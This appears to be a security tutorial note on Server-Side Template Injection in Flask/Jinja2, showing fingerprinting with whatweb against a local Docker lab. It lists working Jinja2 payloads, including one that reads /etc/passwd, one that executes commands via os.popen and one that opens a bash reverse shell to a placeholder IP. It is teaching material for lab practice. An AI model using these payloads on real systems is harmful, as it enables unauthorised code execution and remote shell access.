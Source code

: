 **Server-Side Template Injection (SSTI)** is a security vulnerability in which an attacker can inject malicious code into a server *template*.

Server-side templates are files containing code that is used to generate *dynamic content* in a web application. Attackers can exploit an **SSTI** vulnerability to inject malicious code into a server template, allowing them to execute commands on the server and gain unauthorized access to both the web application and potentially sensitive data.

For example, imagine that a web application uses server templates to generate personalized emails. An attacker could exploit an **SSTI** vulnerability to inject malicious code into the email template, allowing the attacker to execute commands on the server and gain unauthorized access to the web application's sensitive data.

In a practical case, attackers can detect whether a Flask application is in use, for example, using tools such as **WhatWeb**. If an attacker detects that a Flask application is in use, he can attempt to exploit an **SSTI** vulnerability, since **Flask** uses the **Jinja2** template engine, which is vulnerable to this type of attack.

For attackers, detecting a Flask or Python application can be a first step in the process of trying to exploit an SSTI vulnerability. However, attackers can also try to identify SSTI vulnerabilities in other web applications using different templating frameworks, such as Django, Ruby on Rails, among others.

To prevent SSTI attacks, web application developers must properly validate and filter user input and use secure tools and template frameworks that implement security measures to prevent malicious code injection.

# Example

We are going to pull/run this [[Docker]] container for this example:

```bash
docker run -p 8089:8089 -d filipkarc/ssti-flask-hacking-playground
```

We are going to indentify with **whatweb** what web technologies is being used by the web page:

```bash
whatweb "http://127.0.0.1:8089/"
```

We can see that it is running **Python**. Whenever we see that a server is running **Python** or a technology that uses **Python** such as **Flask** and we have the option to enter an input we can try to enter payloads from the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) website, for example:

```bash
# This is the basic payload, with it we can test if the web is vulnerable to SSTI, it should return 49
{{7*7}}

# We may be able to read a file
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}

# We may be able to run remote code execution
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

# We may be able to run remote code execution (reverse shell), we will put the '&' url-encoded as '%26' for avoiding errors
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >%26 /dev/tcp/<IP>/443 0>%261"').read() }}
```

We must test all the payloads we are interested in because many of them may not work.